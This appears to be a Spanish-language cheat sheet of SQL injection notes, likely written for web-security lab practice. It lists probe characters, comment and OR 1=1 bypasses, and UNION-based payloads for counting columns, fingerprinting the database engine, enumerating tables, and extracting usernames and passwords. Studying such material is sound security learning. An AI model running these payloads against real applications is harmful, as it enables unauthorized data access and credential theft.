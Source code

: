 # ATAQUE: SQL INJECTION

## IDENTIFICAR LA VULNERABILIDAD

' | simbolo comun para testear si existe SQLi o no.

" | simbolo comun para testear si existe SQLi o no.

' -- | simbolo comun para testear si existe SQLi o no

## BYPASS COMUNES

-- | dentro del lenguaje de SQL query, sirve para comentar de manera que todo lo que este despues de los simbolos, se ignora. \
ex: SELECT [columns] FROM products WHERE category = 'Gifts'--' AND released = 1

'#' | dentro del lenguaje de SQL query "#", sirve para comentar de manera que todo lo que este despues del simbolo, se ignora. \
ex: SELECT [columns] FROM products WHERE category = 'Gifts'#' AND released = 1

' OR 1=1-- | sirve para crear una consulta a un resultado booleano, de manera que el inicio de la consulta es leido, el resto no ya que
es siempre TRUE. \
ex: SELECT [columns] FROM products WHERE category = 'Gifts' OR 1=1-- AND released = 1

USER-- | cuando se tiene un usuario se podria probar la vulnerabilidad tratando de ver si hace bypass sin ingresar la contrasena.

## UNION ATTACK

PRE-REQ: numero de columnas y data type de cada columna

### COMO SABER EL NUMERO DE COLUMNAS ?

METODO_1: ' ORDER BY 1-- \
METODO_2: ' UNION SELECT NULL--

### COMO SABER EL DATA TYPE DE UNA COLUMNA ?

> Microsoft, MySQL & PostgreSQL

' UNION SELECT 'a',NULL,NULL,NULL-- \
' UNION SELECT NULL,'a',NULL,NULL-- | >> se tiene que hacer iterativo cambiando los campos para saber que tipo son.

> Oracle

' UNION SELECT 'a','a' from DUAL--

### IDENTIFICAR INFORMACION DEL MOTOR DE BASE DE DATOS [TIPO/VERSION] 

Microsoft >> SELECT @@version \
MySQL >> SELECT @@version \
Oracle >> SELECT banner FROM v$version | SELECT version FROM v$instance \
PostgreSQL >> SELECT version() 

### LISTAR TABLAS DE LA BASE DE DATOS / [Microsoft / MySQL / PostgreSQL] 

SELECT [columns] FROM information_schema.tables | '+UNION+SELECT+table_name,null+FROM+information_schema.tables-- \
SELECT [columns] FROM information_schema.columns 

SELECT [columns] FROM information_schema.columns WHERE table_name = 'users_qmwbqm' 

>>> NOTA: revisar cual es la estructura del "information_schema" por motor.

### LISTAR TABLAS DE LA BASE DE DATOS / [Oracle] 

SELECT [columns] FROM all_tables 

SELECT [columns] FROM all_tab_columns WHERE table_name = 'USERS' 

### MOSTRAR INFORMACION DE OTRAS TABLAS 

' UNION SELECT username, password FROM users-- | retrieve the username and password from table "users"




